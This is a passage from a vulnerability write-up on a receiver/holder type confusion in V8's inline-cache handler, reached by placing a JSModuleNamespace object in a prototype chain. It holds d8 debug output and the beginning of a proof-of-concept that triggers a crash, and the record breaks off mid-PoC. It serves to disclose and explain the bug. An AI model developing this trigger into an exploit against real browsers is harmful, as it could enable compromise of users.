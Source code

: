 If you write correct poc, crash will occur in [AccessorAssembler::HandleLoadICSmiHandlerLoadNamedCase](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/ic/accessor-assembler.cc;l=626?q=AccessorAssembler::HandleLoadICSmiHandlerLoadNamedCase&ss=chromium).

At first, we need to access some property which is in `JSModuleNamespace`.

```
// 1.mjs
export let x = {};
export let y = {};
export let z = {};

// 2.mjs
// run "./d8 --allow-natives-syntax ./2.mjs"
import * as module from "1.mjs";
%DebugPrint(module)

/*
DebugPrint: 0x2a9a0810a849: [JSModuleNamespace]
 - map: 0x2a9a082c7cf9 <Map(DICTIONARY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x2a9a08002235 <null>
 - elements: 0x2a9a0810a8d9 <NumberDictionary[16]> [DICTIONARY_ELEMENTS]
 - module: 0x2a9a08293745 <Other heap object (SOURCE_TEXT_MODULE_TYPE)>
 - properties: 0x2a9a0810a85d <NameDictionary[29]>
 - All own properties (excluding elements): {
   0x2a9a08005be5 <Symbol: Symbol.toStringTag>: 0x2a9a08004d59 <String[6]: #Module> (data, dict_index: 1, attrs: [___])
   x: 0x2a9a08293825 <AccessorInfo> (accessor, dict_index: 2, attrs: [WE_])
   z: 0x2a9a08293865 <AccessorInfo> (accessor, dict_index: 4, attrs: [WE_])
   y: 0x2a9a08293845 <AccessorInfo> (accessor, dict_index: 3, attrs: [WE_])
 }
 - elements: 0x2a9a0810a8d9 <NumberDictionary[16]> {
   - requires_slow_elements
 }
0x2a9a082c7cf9: [Map]
 - type: JS_MODULE_NAMESPACE_TYPE
 ...
*/

```

`JSModuleNamespace` means `module` object in above snippet. Then, this `module` object should be `holder` in [ComputeHandler](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/ic/ic.cc;l=992?q=ComputeHandler&ss=chromium). I can make this by setting this `module` object to other object's prototype chain. Following one is **poc** for this vulnerability.

```
import * as module from "1.mjs";

function poc() {
    class C {
        m() {
            return super.y;
        }
    }

    let zz = {aa: 1, bb: 2};
    // receiver vs holder type confusion
    function trigger() {
        // set lookup_start_object
        C.prototype.__proto__ = zz;
        // set holder
        C.prototype.__proto__.__proto__ = module;

        // "c" is receiver in ComputeHandler [ic.cc]
        // "module" is holder
```